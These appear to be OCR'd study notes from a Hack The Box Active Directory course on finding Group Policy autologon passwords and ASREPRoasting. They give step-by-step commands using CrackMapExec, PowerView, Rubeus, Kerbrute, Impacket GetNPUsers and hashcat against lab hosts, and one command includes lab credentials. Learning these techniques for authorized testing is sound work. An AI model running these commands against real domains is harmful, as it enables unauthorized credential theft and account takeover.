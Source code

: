 • It is also possible to find passwords in files such as Registry.xml when autologon is configured via Group Policy.

• Hunt for this using gpp_autologin module of cme
```
crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M
gpp_autologin
```



ASREPRoasting
• It's possible to obtain the Ticket Granting Ticket (TGT) for any account that has the Do not require Kerberos pre-authentication setting enabled.
• Many vendor installation guides specify that their service account be configured in this way.
• If an account has pre-authentication disabled, an attacker can request authentication data for the affected account and retrieve an encrypted TGT from the Domain Controller. This can be subjected to an offline password attack using a tool such as Hashcat or John the Ripper.
• The attack itself can be performed with the Rubeus toolkit and other tools to obtain the ticket for the target account
• This attack does not require any domain user context and can be done by just knowing the SAM name for the user without Kerberos pre-auth.

1. Enumerate for "DONT_REQ_PREAUTH Value using Get-DomainUser
```
PS C:\htb> Get-DomainUser -PreauthNotRequired | select
samaccountname,userprincipalname,useraccountcontrol | fl
```

2. Use Rubeus to retrieve the hash for hashcat
```
PS C:\htb> .\Rubeus.exe asreproast /user:mmorgan /nowrap
/format:hashcat
```

3. Crack with hashcat
```
TeneBrae93@htb[/htb]$ hashcat -m 18200 ilfreight_asrep
/usr/share/wordlists/rockyou.txt
```



Using Kerbrute
- When performing user enumeration with Kerbrute, the tool will automatically retrieve the AS-REP for any users found that do not require Kerberos pre-authentication.

1. Retrieving the AS-REP Using Kerbrute
```
TeneBrae93@htb[/htb]$ kerbrute userenum -d inlanefreight.local --dc
172.16.5.5 /opt/jsmith.txt
```



Hunting for Users with Kerberoast Pre-auth Not Required Using GetNPUsers.py
- With a list of valid users, we can use Get-NPUsers.py from the Impacket toolkit to hunt for all users with Kerberoast pre-authentication not required.
- The tool will retrieve the AS-REP in Hashcat format for offline cracking for any found.
- We can also feed a wordlist such as jsmith.txt into the tool, it will throw errors for users that do not exist, but if it finds any valid ones without Kerberos pre-authentication, then it can be a nice way to obtain a foothold or further our access, depending on where we are in the course of our assessment.
```
TeneBrae93@htb[/htb]$ GetNPUsers.py INLANEFREIGHT.LOCAL/ -dc-ip 172.16.5.5 -no-pass -
usersfile valid_ad_users
```
